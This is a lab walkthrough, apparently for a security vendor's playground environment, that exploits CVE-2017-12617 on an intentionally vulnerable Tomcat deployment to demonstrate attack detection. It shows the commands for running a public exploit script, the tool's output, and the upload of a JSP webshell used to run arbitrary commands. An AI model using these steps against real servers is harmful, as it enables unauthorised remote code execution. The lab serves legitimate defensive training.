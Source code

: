 # Scenario: Detect Tomcat RCE

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
$ pgo --apply ecs
```

If you need to extract the exploits unzip with the password `virus`:

```sh
$ cd ${ONEPATH}
$ unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Checking if app server is vulnerable

Now you can check to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```sh
$ cd ${ONEPATH}/exploits/tomcat-rce/
$ python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com it's Vulnerable to CVE-2017-12617
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp
```

If you point a browser at <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp> you should get a test page with a bunch of "A" char's - that shows the exploit worked.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-01.png "Poc")

### Inject the exploit and run commands in the container from browser 

Next, inject the exploit and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```sh
$ python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com -p pwn
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ 
```

Either in the shell or from within your browser <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/pwn.jsp> test some commands like `whoami` or `dpkg -l`.

Your browser should present you a blank page with a form containing single field and a `Run` button. Type any Linux command you want and submit the form. The results will populate the page.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-02.png "Exploit")
